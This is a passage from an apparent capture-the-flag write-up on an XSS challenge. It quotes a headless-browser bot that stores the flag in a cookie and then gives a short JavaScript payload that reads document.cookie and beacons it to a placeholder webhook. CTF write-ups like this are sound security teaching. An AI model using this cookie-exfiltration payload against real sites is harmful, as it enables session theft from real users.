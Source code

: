 ```python
      return "hCaptcha is broken"
  else:
    out = """<html>
  [...]
```

**When we send a POST request to `/`, it'll trigger the web application to call function `visit()` with argument `url`:**
```python
[...]
chal = {
  "title": "Baby XSS again",
  "domain": os.getenv("HOSTNAME","localhost:3000"),
  "flag": os.getenv("FLAG", "fakeflag{}"),
  "sleep": 1,
}

def visit(url):
  chrome_options = webdriver.ChromeOptions()
  chrome_options.add_argument("--disable-gpu")
  chrome_options.add_argument("--headless")
  chrome_options.add_argument("--no-sandbox")
  driver = webdriver.Chrome(options=chrome_options)
  try:
    driver.get("http://"+chal["domain"]+"/robots.txt?url="+quote_plus(url))
    driver.add_cookie({"name": "flag", "value": chal["flag"]})
    driver.get("about:blank")
    driver.get(url)
    time.sleep(chal["sleep"])
    return "Your URL has been visited by the "+chal["title"]+" bot.";
  except Exception as e:
    print(url, flush=True)
    print(e, flush=True)
    return "The "+chal["title"]+" bot did not handle your URL properly."
  finally:
    driver.quit()
[...]
```

The `visit()` function will launch a headless (no GUI) Chrome browser, and then it'll:

1. Add a new cookie with key `flag`, and the flag value
2. Go to our POST parameter's `url` URL

That being said, **the flag is being stored in the `flag` cookie!**

## Exploitation

**Armed with above information, let's host a JavaScript payload on Pastebin!**

**The payload we're gonna use is:**
```javascript
const WEBHOOK_URL = "<your_webhook_URL>";
var cookies = document.cookie;
navigator.sendBeacon(WEBHOOK_URL, cookies);
```
